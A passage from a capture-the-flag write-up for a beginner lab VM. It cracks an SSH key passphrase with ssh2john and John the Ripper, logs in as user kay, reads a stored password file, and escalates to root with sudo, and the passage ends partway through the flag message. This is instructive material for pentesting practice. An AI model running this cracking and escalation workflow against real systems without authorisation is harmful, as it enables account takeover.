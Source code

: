 We can crack the rsa key using John The Ripper. But before that we need to convert it into a hash.

```r
m1m3@kali:~$ python /usr/share/john/ssh2john.py id_rsa > kay_rsa   
m1m3@kali:~$ john kay_rsa 

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
Proceeding with incremental:ASCII
beeswax          (id_rsa)
Session aborted
```

Awesome! we got the passphrase for user <i>Kay</i>. Now we can login as user <i>Kay<i> via ssh with passphrase <i>beeswax</i>. But don't forget to change permissions of the rsa key.

```r
m1m3@kali:~$ chmod 600 id_rsa 
m1m3@kali:~$ ssh -i id_rsa -t kay@192.168.1.11 '/bin/bash'

Enter passphrase for key 'id_rsa': 
kay@basic2:~$ id
uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

As we can see the user is added in the <i>sudoers</i> group, we can get root by using <i>Kay's<i> password. Earlier, we found a <i>pass.bak</i> file. Let's look at it. 
```r
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ 
```

We found another password. We can use this to elevate our privileges.

```r
kay@basic2:~$ sudo su
[sudo] password for kay: 
root@basic2:/home/kay# id
uid=0(root) gid=0(root) groups=0(root)
root@basic2:/home/kay# 
```
Hurray! We are root. Now we can read our flag.

```c
root@basic2:/home/kay# cat /root/flag.txt
 
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
```